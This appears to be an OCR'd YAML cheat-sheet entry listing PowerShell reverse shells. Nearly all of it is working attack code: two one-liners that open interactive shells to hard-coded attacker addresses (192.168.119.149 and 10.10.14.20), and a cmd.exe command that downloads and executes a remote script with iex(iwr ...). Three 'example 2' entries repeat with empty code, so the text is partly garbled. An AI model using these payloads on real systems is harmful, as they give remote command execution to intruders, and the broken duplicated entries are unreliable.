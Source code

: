 ```yaml
---
functions:
  shell:
    - description: Powershell reverse shell (example 1)
      code: |
        powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.149',8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    - description: Powershell reverse shell (example 2)
      code: |
    - description: Powershell reverse shell (example 2)
      code: |
    - description: Powershell reverse shell (example 2)
      code: |
    - description: Powershell reverse shell (script )
      code: |
        ps-shell.ps1:
        $ip="10.10.14.20";$port=445;$client = New-Object System.Net.Sockets.TCPClient($ip,$port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

        From cmd.exe context
        start /B powershell -c "iex(iwr http://10.10.14.20/ps-shell.ps1)"
---
```

